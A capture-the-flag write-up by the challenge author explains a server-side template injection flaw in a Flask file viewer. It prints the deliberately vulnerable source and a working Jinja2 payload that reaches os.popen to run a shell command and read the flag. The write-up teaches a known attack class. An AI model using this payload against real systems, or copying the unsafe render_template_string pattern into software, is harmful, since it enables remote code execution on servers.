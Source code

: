 
## Source Code Overview and SSTI Vulnerability

![View Source](/static/writeups/photos/viewsource.png)

The application is a simple Flask-based web service that allows users to view Python files by passing the filename as a query parameter in the URL. Here's the source code, which one should have gotten by inputting *main.py* into the website:

```python
from flask import Flask, request, render_template, redirect, url_for, render_template_string
import os 
app = Flask(__name__)

@app.route('/')
def index():
    return render_template('index.html')
    
@app.route('/view', methods=["GET"])
def view():
    file_name = request.args.get('file_name')
    if not file_name:
        return redirect(url_for('index'))
    if not file_name.endswith('.py'):
        return render_template('error.html')
    
    file_path = f"{file_name.split('.')[0]}.py"
    
    if not os.path.exists(file_path):
        return render_template('error.html')
    
    with open(file_path, "r") as f:
        content = f.read()
    template = f"""
<!DOCTYPE html>
<html>
<head>
    <title>View File for {file_name}</title>
    <link rel="stylesheet" href="/static/style.css">
    <link rel="stylesheet" href="/static/view.css">
</head>
<body>
    <h1>Code Preview</h1>
    <pre class="code_preview">{content}</pre>
</body>
</html>
"""
    return render_template_string(template)

if __name__ == '__main__':
    app.run()
```

## SSTI (Server-Side Template Injection) Vulnerability

The vulnerability lies in the `view` route, where the filename is taken from the `file_name` query parameter and used directly in a `render_template_string` call. Even though a minor filter is applied to check if the file ends with `.py`, the way the filename is processed leaves room for injecting malicious payloads.

**Explanation:**
- The code checks if the file ends with `.py`, but it only reads the first part of the filename (before the first period) to construct the file path (`file_name.split('.')[0]`).
- This behavior allows attackers to inject payloads between the `main` and `.py` portions of the filename, bypassing the filter and injecting Server-Side Template Injection (SSTI) payloads.

## Example Payload

The following payload demonstrates how to exploit this vulnerability:

```
main.{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("cat flag.txt").read()}}{%endif%}{% endfor %}.py
```

**What it does:**
- The payload injects a loop to find a specific class (`warning`) and then uses it to access Python's `os` module.
- It executes the `cat flag.txt` command to read the contents of the `flag.txt` file and display it.

This is a classic [SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) attack, leveraging Python's ability to evaluate expressions within the template context to achieve Remote Code Execution (RCE).

## Afterword
I was the original author for this challenge. 

## Additional Resources
[SSTI Injections](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
